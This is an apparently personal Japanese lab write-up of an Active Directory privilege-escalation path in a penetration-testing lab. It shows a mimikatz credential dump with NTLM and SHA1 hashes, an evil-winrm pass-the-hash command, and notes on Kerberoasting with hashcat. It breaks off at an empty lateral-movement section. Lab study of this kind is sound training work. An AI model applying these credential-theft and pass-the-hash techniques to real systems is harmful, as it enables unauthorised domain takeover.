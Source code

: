 # 主題
ここでは、Active Directoryを低い権限から最終的にDomai Adminsの権限まで昇格する一連の流れを示す。Active Directoryを中心に話す。

流れとしては

**10.11.1.123** (ただのUsersグループ) -> **10.11.1.121** (サービスアカウント) -> **10.11.1.120** (Domain Admins)

の流れ。

# 10.11.1.123 (ただのUsersグループのメンバー)

（イニシャルシェルは、http://10.11.1.123/Books にアクセスして、My Business-Period(Bizuno Library 3.1.7)とわかる。エクスプロイトがある。**初めからすでにsystem権限の状態**）

mimikatzでハッシュを取り出しても、このマシン10.11.1.123のユーザxor-app59についてのハッシュしか出てこない。すなわちActive Directoryのドメイン中の他のユーザのハッシュはmimikatzでは出てこない
（そりゃそうか。Domain Adminsの人はACのトップであり、全ユーザを管理するから各ユーザのハッシュが出てくるのか。）

ちなみにmimikatzでは、このマシンxor-app59のAdministratorのハッシュが出た：

```
Authentication Id : 0 ; 337803 (00000000:0005278b)
Authentication Id : 0 ; 337803 (00000000:0005278b)
Session           : Interactive from 0
User Name         : Administrator
Domain            : XOR-APP59
Logon Server      : XOR-APP59
Logon Time        : 9/20/2021 2:39:23 AM
SID               : S-1-5-21-3051798232-4248191986-2095020414-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : XOR-APP59
         * NTLM     : 3fee04b01f59a1001a366a7681e95699
         * SHA1     : 3a8679fbfdfea03f2d3b5a1a1aa185cca912014b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
```

だからxor-app59（10.11.1.123）には次のようにPass the Hashできる：

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u Administrator -H 3fee04b01f59a1001a366a7681e95699  -i 10.11.1.123
```

ユーザグループだからか、サービスアカウントに対してSilver Ticket作ってサービスアカウントのシェルを起動させようとしたり、（AdministratorにOver pass the hashしようとしたり...<- いやいや、
このAdministratorって自分の、xor-app59のAdministratorのことだよ）したけど無理だった。

しかし、**Kerberoasができた！** （`Invoke-Kerberoast`でkrb5tgs型のハッシュをとって変換してhashcatでクラックするやつ）


# ラテラルムーブメント（サービスアカウント10.11.1.121へ）


















